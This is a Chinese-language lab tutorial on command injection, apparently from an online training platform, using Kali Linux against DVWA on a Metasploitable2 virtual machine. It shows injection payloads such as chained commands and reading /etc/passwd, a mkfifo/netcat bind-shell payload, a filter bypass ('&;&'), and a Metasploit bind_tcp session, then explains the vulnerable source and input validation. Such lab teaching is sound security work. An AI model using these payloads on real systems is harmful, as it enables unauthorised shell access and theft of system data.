









# Kali 命令注入攻击

## 1. 课程说明

本课程为动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述 Web 应用攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定 Linux 系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们初步接触 Kali Linux 和渗透测试的概念。需要依次完成下面几项任务：

- 命令注入简介
- 命令注入初试
- 命令注入进阶
- 命令注入防范

## 4. 推荐阅读

本节实验推荐阅读下述内容：

1. [command injection](https://www.owasp.org/index.php/Command_Injection)

## 5. 命令注入攻击

### 5.1 命令注入简介

命令注入攻击，即 Command Injection。通过 web 应用上的漏洞执行攻击者想要执行的命令。从而获取到敏感的信息，甚至是攻破目标主机。

### 5.2 命令注入环境

同样我们使用 DVWA 为我们提供的命令注入环境。所以我们首先还是启动我们的实验环境，若是已经非常熟悉该步骤的同学可以跳过这一步。

在实验桌面中，双击 Xfce 终端，打开终端：


使用 `sudo virsh start Metasploitable2` 命令即可启动我们的靶机系统虚拟机：


等待大约四分钟，待得虚拟机完全启动之后我们打开桌面上的 Firefox：


访问我们的靶机系统所使用的 IP 地址`192.168.122.102`：



正常的启动靶机系统之后，我们访问其 IP 地址可以得到这样的一个页面。

点击 DVMA 我们便可进入到 DVMA 的登陆页面，默认的登陆用户与密码是 admin 与 password，登陆之后便会进入这样的页面：



为了能够进行最简单的攻击，我们会把安全默认调制最低，首先进入安全模式的调整页面：


然后调整安全的 level 到 low：


当看到页面的下方 Level 的显示变化后，说明修改成功了：


### 5.3 命令注入初试

进入 DVWA 为我们所提供的 Command injection 的实验页面：



我们看到 DVWA 为我们提供了一个执行 ping 命令的平台，这样的服务在实际生活中也是存在的。例如站长一类的网站，会提供这样的 ping 命令执行服务。

我们可以来尝试一番：


我们可以看到确实为我们执行了 `ping 127.0.0.1` 的命令并返回给我们结果。

但是若是直接执行的 `ping 127.0.0.1` 命令，熟悉 Linux 的人会知道我们可以通过管道符来把几个命令合并成一个命令，例如：

```
ping 127.0.0.1 && ls
```

因为平台是内置了一个 `ping` 命令，所以我们可以把 ping 省略掉，输入 `127.0.0.1 && ls`:



我们可以看到可以正常执行，说明没有任何的防范，类似的命令还有：

```
127.0.0.1;pwd
```



亦或者：

```
| ls -lah
```


既然能够获取信息，必然会选择查看有用的信息：

```
| cat /etc/passwd
```



如此的话，似乎什么命令都可以执行，我们甚至可以使用 `wget` 命令下载我们准备好的木马，使他在后台执行，这样我们就可以通过这个某门远程连接或者是 webshell 来远程操控我们的目标主机了。

可见命令注入是一件非常危险的事情。一定不能轻易的提供这样的服务，若是一定要提供一定要做好响应的防范与过滤措施。

### 5.4 命令注入进阶

命令的注入不仅仅可以这样简单的执行命令，我们还可以联合 metasploit 工具。

还记得我们在远程包含试验中使用的反弹 shell 中所使用的 netcat 工具吗？也就是 nc 命令。

我们利用 mkfifo 命令与 nc 命令创建一个可以交互的平台：

```
| mkfifo /tmp/pipe;sh /tmp/pipe | nc -lp 1111 > /tmp/pipe
```

该命令就是通过 mkfifo 命令创建一个进程之间能够相互通信的管道，使得 nc 所监听的 1111 端口号能够与可交互的 shell 相互连接通信。如此我们就可以像 ssh 登陆一般使用目标主机了。

submit 提交之后，我们会发现页面一直处于加载状态，因为 nc 一直在监听 1111 端口，并没有切换至后台工作：


经过短时间的等待，kali 虚拟机启动之后，此时我们使用 ssh 登陆上 kali 虚拟机的终端，我们可以通过 netcat 命令与目标主机建立连接，使用这样一个命令：

```
nc 192.168.122.102 1111
```

该命令就是用于与 192.168.122.102 目标主机监听的 1111 端口建立连接。

由此我们便可如 ssh 登陆一般控制目标主机了：


通过 `exit` 或者 `ctrl+c` 我们便可断开连接。

同样我们还可以通过 `msfconsole` 来启动 MSF 工具的终端，用 msf 来建立连接。

我们使用 msfconsole 的命令进入命令行，接着我们将使用 `multi/handler` 模块：

```
use multi/handler
```


然后我们将设置攻击使用的脚本：

```
set PAYLOAD linux/x86/shell/bind_tcp
```

>**注意**：加载都需要一定的时间，请大家耐心等待。


通过 `show options` 我们可以看到必须设置的配置项：



我们看到还可以配置目标主机：

```
set RHOST 192.168.122.102
```

做好一切准备工作我们就使用 `run` 或者是 `exploit` 命令开始攻击，经过一段时间的等待，我们看到了这样的提示说明这在执行攻击的脚本，与目标主机建立连接：


这样的提示说明我们已经成功建立连接：


可以随意执行权限之内的所有命令：


### 5.5 命令注入防范

要想防范命令注入式的攻击，我们需要了解为什么可以被攻击。

我首先来查验一下 low 安全级别的源码：


从源码中我们可以看到在使用 POST 提交内容之后，

- 首先会去获取我们输入框中输入的 IP 地址；
- 然后通过 stristr() 来识别操作系统的平台；
- 接着使用 shell_exec() 执行 ping 命令，并将结果返回给 cmd 变量；
- 最后将结果输出。

这整个实现上没有问题，获取变量，执行 ping 命令。

传给 shell_exec() 的参数就是我们要执行的命令，在 Linux 中我们可以通过很多中方式将多个命令写在一行中，也有多种方式给命令换行，但是这些方式都有一个共性就是必须使用特殊符号，例如：`;`、`\`、`|`、`&&` 等等，但是 ping 命令的执行我们是不需要使用到特殊符号的。

所以对于这样的场景我们对于命令的注入防范就是对于这些特殊符号的过滤，让用户不能或者输入的这些特殊字符不生效。

我们将安全等价切换到 medium，再次查看源代码：

/wm)

我们看到确实如此，利用 substitutions 数组变量来设置过滤项与对应的替换的值，然后使用 str_replace() 来将获取到的 IP 变量，若是其中有这些值便都替换掉。

类似于黑名单的作用，将 `&&` 与 `;` 列入黑名单，只要用户输入的内容中包含这样的字符就都替换成空。一次来防范。

我们可以再次尝试一下：

```
127.0.0.1 && ls
```

可以看到是执行不了的。

但是这样的方式与我们在讨论文件包含的防范措施存在一样问题，也就是使用内嵌的方式巧妙的避开这样的问题。例如：

```
127.0.0.1 &;& ls
```

我们发现是可以执行的：



这是因为我们的 `&&` 分开，没有在一起所以不会被过滤掉，但是 `;` 在过滤的名单中，会被替换成空字符，而这样的字符会使得两个分离的 `&&` 聚集再一起，从而使得其能够正常执行。

还有这样的代码并没有过滤单独的 `&` 字符还有 `|` 的字符，使得我们还是有很多中办法绕过这样的过滤，再次执行攻击者想要执行的命令。

还记得管道符中单个的 `&` 与两个的 `&&` 区别吗？

- 单个 & 连接命令，第一个命令执行完继续第二个，不管成功与否；
- 两个 & 连接命令，第一个命令执行完只有成功了才能执行第二个。

所以我们可以尝试 `127.0.0.1 & pwd` 命令，我们会发现依然可以执行。

同样的道理还有逻辑与，使用 `|` 管道符连接命令，当第一个命令成功则第二个不执行，反之第一个不成功则第二个命令执行。所以只要我们使得第一个参数无法正常执行即可，并且过滤条件中也没有该符号。

其实从根本来说只要隔绝了特殊符号就可以彻底的解决这样的问题。

所以最简单的方法就是将输入框分割成四个，每个输入框都只能输入数字，这样就不需要判断，或者过滤其他的字符，只有输入的能容是全数字才行，这样后台获取到四个变量之后在自行拼接即可。

我们可以将安全级别切换至 high，然后查看源代码：


我们可以看到虽然其处理方式与我们的不同，但是思想一直，就是处理掉所有的特殊字符，通过 stripslashes() 过滤一次下划线什么的特殊字符，然后通过 explode() 来切割成四份，然后判断每一份是不是全数字，若都是再将四部分拼接起来。由此就可以成功的过滤掉所有的特殊字符，即使没有过滤掉也会在判断数字一步中筛选掉。

这就是从根本上解决问题，从而防范了命令注入的攻击。

## 6. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- 命令注入简介
- 命令注入初试
- 命令注入进阶
- 命令注入防范

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

> **注意**：下一实验环境与本章节实验环境不同，请勿继续使用本机环境

## 7. 作业

1.`&` 连接命令的尝试

2.利用 mutillidae 环境完成命令注入的实验

